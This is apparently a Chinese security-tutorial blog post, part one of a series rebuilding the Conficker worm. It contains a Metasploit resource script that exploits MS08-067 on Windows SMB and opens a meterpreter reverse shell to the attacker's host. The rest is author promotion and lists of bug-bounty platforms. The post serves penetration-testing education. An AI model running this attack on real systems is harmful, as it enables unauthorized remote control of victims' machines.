 # 原创
：  【Python脚本进阶】2.4、conficker蠕虫（上）:Metasploit攻击Windows SMB服务

# 【Python脚本进阶】2.4、conficker蠕虫（上）:Metasploit攻击Windows SMB服务

 <img alt="" src="https://img-blog.csdnimg.cn/2e86bda3ff034c71920f2f40732c3929.gif"/>

## 前言：

> 
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/c2dfbe518f7d43a2978e4e6f1bfd5ea1.gif" width="24"/>介绍： </h3>
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>博主：网络安全领域狂热爱好者（承诺在CSDN永久无偿分享文章）。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>殊荣：CSDN网络安全领域优质创作者，2022年双十一业务安全保卫战-某厂第一名，某厂特邀数字业务安全研究员，edusrc高白帽，vulfocus、攻防世界等平台排名100+、高校漏洞证书、cnvd原创漏洞证书等。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>擅长：对于技术、工具、漏洞原理、黑产打击的研究。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>C站缘：C站的前辈，引领我度过了一个又一个技术的瓶颈期、迷茫期。
<hr/>
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：</h3>
<img alt="" height="23" src="https://img-blog.csdnimg.cn/b1b5426baac44b97b68428245cc35d77.png" width="23"/>面向读者：对于网络安全方面的学者。 
<img alt="" height="23" src="https://img-blog.csdnimg.cn/19ea593260b84ec8b836a336326fa0cc.png" width="23"/>本文知识点（读者自测）： 
（1）Metasploit攻击Windows SMB服务（√）


### <img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：

> 
<h2> <img alt="" height="23" src="https://img-blog.csdnimg.cn/19e90c25b42d4b368c3c94da4b04afb0.png" width="23"/>让读者如虎添翼</h2>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|conficker蠕虫博文|目标|状态
|[【Python脚本进阶】conficker蠕虫（上）:Metasploit攻击Windows SMB服务](https://blog.csdn.net/qq_53079406/article/details/126077115)|Metasploit攻击|已发布
|[【Python脚本进阶】conficker蠕虫（中）:Python脚本与Metasploit交互](https://blog.csdn.net/qq_53079406/article/details/126081487)|Python脚本与Metasploit交互|已发布
|[【Python脚本进阶】conficker蠕虫（下）:暴破口令，远程执行进程](https://blog.csdn.net/qq_53079406/article/details/126084405)|暴破口令，远程执行进程|已发布
|[【Python脚本进阶】conficker蠕虫（终）](https://blog.csdn.net/qq_53079406/article/details/126084602)|完整代码|已发布
</tbody></table>



---


**目录**

[一、简介](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B)

[1.1、分析：](#1.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[二、Metasploit攻击Windows SMB服务](#%E4%BA%8C%E3%80%81Metasploit%E6%94%BB%E5%87%BBWindows%20SMB%E6%9C%8D%E5%8A%A1)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.2、示例：](#2.2%E3%80%81%E7%A4%BA%E4%BE%8B%EF%BC%9A)

---


## 一、简介

> 
<h3>1.1、分析：</h3>
在其基本的感染方法中， Conficker蠕虫使用了两种不同的攻击方法。
1、利用了Windows服务器中一个服务的Oday漏洞。利用这个栈溢出漏洞， 蠕虫能在被感染的主机上执行shellcode并下载蠕虫。
2、Conficker蠕虫暴力破解默认的管理员网络共享(ADMN$）的口令以获取肉机访问权。


---


---


## 二、Metasploit攻击Windows SMB服务

> 
<h3>2.1、分析：</h3>
利用Metasploit框架（http://metasploit.com/download/）简化攻击代码。作为一个开源计算机安全项目，很快就被广泛使用， 并且已经变成了一个漏洞利用代码的开发工具包。
<hr/>
Metasploit能让渗透测试人员在标准化和脚本化的环境中运行数以千计的不同的计算机漏洞利用代码。在Con.ticker蠕虫中使用的漏洞曝光后不久， HDMoore就将一个有效的漏洞利用代码整合进了框架内—-MS08-067 _netapi


> 
<h3>2.2、示例：</h3>
虽然攻击者可以通过交互驱动的方式使用Metasploit, 但Metasploit也能读取批处理脚本(re)完成攻击。在攻击时，Metasploit会顺序执行批处理文件中的命令。
<hr/>
如使用ms08 _ 067 netapi (Conficker)攻击“ 肉机” (192.168.x.x)， 使之与我们自己的主机192.168.xx.xx的7777端口建立一个反向shell

<pre><code>use exploit/windows/smb/ms08_ 067_netapi
set RHOST 192.168.x.x
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.xx.xx
set LPORT 7777
exploit -j -z</code></pre>
使用Metasploit进行攻击时， 先选好要用的漏洞利用代码(exploit/windows/smb/ms08 _ 067 _ netapi)
选定目标，目标设置为192.168.1.37
设定负载为windows/meterpreter/reverse _ tcp
将反向连接的目标设为主机192.168.77.77, 端口为7777
最后Metasploit去实施攻击。
<hr/>
将上面这些代码保存为文件conficker.rc。只要输入命令msfconsole -r conficker.rc, 就能发起攻击。这条命令让Metasploit运行脚本conficker.rc中的指令。如果攻击成功， 会返回一个让我们能控制目标计算机的Windows 命令行shell。



---


---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>


<table border="1" cellpadding="1" cellspacing="1"><tbody>|互联网大厂|URL
|阿里|https://asrc.alibaba.com/#/
|腾讯|https://security.tencent.com/
|百度|https://bsrc.baidu.com/v2/#/home
|美团|https://security.meituan.com/#/home
|360|https://security.360.cn/
|网易|https://aq.163.com/
|字节跳动|https://security.bytedance.com/
|京东|https://security.jd.com/#/
|新浪|http://sec.sina.com.cn/
|微博|https://wsrc.weibo.com/
|搜狗|http://sec.sogou.com/
|金山办公|https://security.wps.cn/
|有赞|https://src.youzan.com/
</tbody></table>

<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/18b63058b35848b19967730eb49fcb45.png" width="23"/>Third Year </h3>
学习最新的知识，建全自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/7ccb45a55d5244edad5a9a1fabc55f08.png" width="23"/>目标：参与护网（每一个男孩子心中的梦想） 
时间：一般5月面试，6/7月开始（持续2-3周）
分类：国家级护网、省级护网、市级护网、重大节日护网（如：建党、冬奥等）


### <img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year 

---

